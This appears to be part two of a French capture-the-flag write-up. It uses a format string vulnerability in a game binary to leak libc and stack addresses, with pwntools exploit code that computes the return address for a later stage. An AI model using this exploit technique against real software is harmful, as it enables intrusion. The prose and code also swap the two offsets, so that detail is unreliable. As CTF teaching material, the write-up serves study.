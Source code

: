 # Deuxième partie - Leak des adresses libc et stack

Pour progresser vers la deuxième étape du scénario d'attaque, la victoire dans le jeu est nécessaire.

Une fois la partie remportée, nous pouvons exploiter la vulnérabilité de type "format string" pour obtenir les adresses de la stack et de la libc. En utilisant l'offset approprié, nous ciblons spécifiquement les adresses recherchées :
- À l'offset 15 de la stack, nous trouvons l'adresse de la stack.
- À l'offset 19, nous identifions une adresse de la libc (__libc_start_main).

Le format de la chaîne de format suivante sera instrumental pour récupérer la valeur de la stack à l'offset spécifié : **%{offset}$llx**.
Cette technique permettra de lire directement les adresses nécessaires depuis stack, fournissant ainsi les informations cruciales pour la phase suivante de l'attaque.

```python
OFFSET_LIBC_START_CALL_MAIN = 122
OFFSET_LIBC_START_MAIN = 0xB0
OFFSET_RET_ADDR = 0x110

def write(p, addr, value, game_round=None, win=True):
	lose = game_round is None
	i = 0
	result = ''

	p.sendline(hex(addr)[2:])
	p.recvuntil(b'What do you want to write ?')
	p.sendline(value)

	while (lose and EXIT_MESSAGE not in result) or (not lose and i < game_round):
		result = p.recvuntil([QUESTION_CHOICE_MESSAGE, EXIT_MESSAGE])
		if EXIT_MESSAGE not in result:
			p.sendline(b"1" if win else "3")
		i += 1

def leak_addr(p, game_round, offset):
	write(p, exe.sym.WIN_MESSAGE, text2hex("%" + str(offset) + "$llx\0"), game_round)

	return int(p.recvuntil(b"You're now allowed to").split('\n')[-1].split("You're")[0], 16)


##########################################################################
##########################################################################
####################### LEAK ADDRESSES ###################################
##########################################################################
# Leak libc (__libc_start_call_main+OFFSET_LIBC_START_CALL_MAIN)
addr_libc_start_call_main = leak_addr(p, game_round, 15) - OFFSET_LIBC_START_CALL_MAIN
addr_libc_start_main = addr_libc_start_call_main + OFFSET_LIBC_START_MAIN
 
# Leak stack addr
addr_stack = leak_addr(p, game_round, 19)

# Ret addr
addr_ret = addr_stack - OFFSET_RET_ADDR

log.info('Leak libc_start_main : ' + hex(addr_libc_start_main))
log.info('Leak stack : ' + hex(addr_stack))
log.info('Leak ret address : ' + hex(addr_ret))
```
